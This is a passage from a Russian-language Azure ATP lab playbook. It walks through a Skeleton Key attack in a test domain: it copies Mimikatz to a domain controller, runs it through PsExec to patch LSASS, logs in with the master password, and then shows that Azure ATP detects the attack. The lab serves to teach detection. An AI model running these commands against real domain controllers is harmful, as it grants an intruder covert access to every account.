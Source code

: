    ``` cmd
   xcopy mimikatz.exe \\ContosoDC\c$\temp
   ```

2. С помощью инструмента **Mimikatz**, который размещен в контроллере домена, удаленно выполните следующий код через PsExec:

   ``` cmd
   PsExec.exe \\ContosoDC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "misc::skeleton" ^& "exit")
   ```

3. Вы успешно исправили процесс LSASS в **ContosoDC**.

   ![Атака с использованием мастер-ключа через Mimikatz](media/playbook-dominance-skeletonkey.png)

### <a name="exploiting-the-skeleton-key-patched-lsass"></a>Использование LSASS, исправленного с помощью мастер-ключа

На компьютере **VictimPC** откройте командную строку (в контексте **JeffL**) и выполните следующее, чтобы попытаться войти в контекст RonHD.

``` cmd
runas /user:ronhd@contoso.azure "notepad"
```

При появлении запроса специально используйте неправильный пароль. Это действие доказывает, что учетная запись *по-прежнему* имеет пароль после выполнения атаки.  

![Использование *неправильного* пароля после атаки с использованием мастер-ключа (этот метод работает именно так, как описано)](media/playbook-dominance-skeletonkey_wrong.png)

Однако мастер-ключ добавляет еще один пароль для каждой учетной записи. Выполните команду runas еще раз, но в этот раз используйте mimikatz в качестве пароля.

``` cmd
runas /user:ronhd@contoso.azure "notepad"
```

Эта команда создает новый процесс, *блокнот*, выполняемый в контексте RonHD. **Мастер-ключ можно создать для _любой_ учетной записи, включая учетные записи служб и учетные записи компьютеров.**

> [!Important]
> Очень важно перезагрузить ContosoDC после выполнения атаки с использованием мастер-ключа. Без этого процесс LSASS.exe на ContosoDC будет исправлен и изменен, что приведет к понижению уровня каждого запроса проверки подлинности до RC4.

### <a name="skeleton-key-attack-detection-in-azure-atp"></a>Обнаружение атаки с использованием мастер-ключа в Azure ATP

Что обнаружила и сообщила служба Azure ATP, пока все это происходило?

![Атака с использованием мастер-ключа, обнаруженная с помощью AATP](media/playbook-dominance-skeletonkey_detected.png)

Служба Azure ATP успешно обнаружила подозрительный метод шифрования перед проверкой подлинности, используемый для этого пользователя.

### <a name="golden-ticket---existing-user"></a>Атака Golden Ticket — существующий пользователь
